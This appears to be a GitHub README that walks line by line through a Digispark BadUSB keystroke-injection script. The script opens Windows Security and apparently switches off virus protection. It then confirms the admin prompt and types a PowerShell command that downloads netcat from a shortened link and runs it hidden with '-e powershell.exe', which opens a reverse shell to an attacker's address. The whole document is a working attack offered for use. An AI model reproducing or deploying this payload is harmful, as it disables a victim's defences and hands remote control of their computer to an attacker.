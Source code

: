 <h2 color="#00979C"> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text.Here is a breakdown of each line of code:</i></div></h2>
<h2 color="#00979C"> 1. Definition of Digispark</h2>

<code>#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code>DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code>  DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code>DigiKeyboard.delay(700);</code>
 <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code>DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




